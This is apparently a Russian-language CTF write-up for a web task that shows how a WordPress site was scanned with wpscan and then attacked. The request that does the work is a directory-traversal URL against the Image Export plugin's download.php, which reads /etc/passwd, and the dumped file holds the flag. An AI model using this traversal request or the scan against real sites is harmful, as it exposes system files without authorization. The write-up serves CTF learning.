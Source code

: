 Mr.Hacker [Web 150]
=====================
> Красивый дизайн, впечатляющие возможности и свобода создавать всё, что вы захотите.
http://185.17....... (Посмотри на логин этого парня)


![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image01.PNG?raw=true)

Переходим на сайт. Видим, что cms сайта - ```wordpress```. Так же можно узнать версию wordpress ```4.7.3```.
Если вы читаете IT новости, то наверняка видили много статьей про уязвимости wordpress, а значит нам необходимо их проэкспуатировать

Используем встроенный в Kali Linux сканер ```wpscan``` (его также можно установить на любой другой дистрибутив)

Инициализируем, используя флаги ```--url``` (для указания ip адресса сайта)  ```--enumerate``` (перечисление опций ) ```vp``` (только уязвимые плагины)

```wpscan --url http://185.17......./ --enumerate vp```


В результате сканирования получаем следующую информацию:

```
[+] We found 1 plugins:

[+] Name: image-export - v4.1
 |  Location: http://185.17......./wp-content/plugins/image-export/
 |  Readme: http://185.17......./wp-content/plugins/image-export/readme.txt

[!] Title: Image Export <= 1.1.0 - Directory Traversal
    Reference: https://wpvulndb.com/vulnerabilities/8096
    Reference: http://www.vapid.dhs.org/advisory.php?v=135
    Reference: http://packetstormsecurity.com/files/132688/

[+] Finished: Sun Jun  3 15:22:51 2018
[+] Requests Done: 1697
[+] Memory used: 78.488 MB
[+] Elapsed time: 00:00:54
```

Как мы видим, на сайте используется уязвимый плагин ```Image Export```

Гуглим, натыкаемся на сайт с описанием экспоита:

```https://ru.0day.today/exploit/23884```

![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image02.PNG?raw=true)

Читаем описание экспоита.
Видим, что с помощью данного экспоита можно получить доступ к файлам сервера.
Применим его к нашему сайту, скачав файл с данными пользователей ```/etc/passwd```

```http://185.17......./wp-content/plugins/image-export/download.php?file=/etc/passwd```

Открываем файл и внизу обнаруживаем пользователя со странным никнеймом ```th1s_Is_d1r3cT0ryTR4VeRs4l```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
th1s_Is_d1r3cT0ryTR4VeRs4l:x:1000:1000:Linux User,,,:/home/th1s_Is_d1r3cT0ryTR4VeRs4l:
<br />
<b>Warning</b>:  unlink(/etc/passwd): Permission denied in <b>/var/www/html/wp-content/plugins/image-export/download.php</b> on line <b>8</b><br />
```
Легко догадаться, что данное имя пользователя и является флагом

```flag{th1s_Is_d1r3cT0ryTR4VeRs4l}```

